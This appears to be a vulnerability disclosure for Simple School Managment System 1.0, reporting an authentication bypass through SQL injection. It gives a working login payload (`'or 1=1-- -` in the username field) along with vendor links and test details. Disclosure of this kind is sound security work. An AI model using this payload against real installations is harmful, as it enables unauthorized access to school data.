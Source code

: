 # Simple School Managment System - Authentication Bypass
+ **Exploit Title:** Simple School Managment System - Authentication Bypass
+ **Date:** 2024-30-01
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple School Managment System 1.0 allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/School/". 

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-02-01 123439](https://github.com/tubakvgc/CVEs/assets/74067343/376ef47a-ac0a-49a2-b5db-e448ae3b3262)

![Ekran görüntüsü 2024-02-01 123556](https://github.com/tubakvgc/CVEs/assets/74067343/6b76c3ee-6c53-4634-8321-37fa68bd3331)

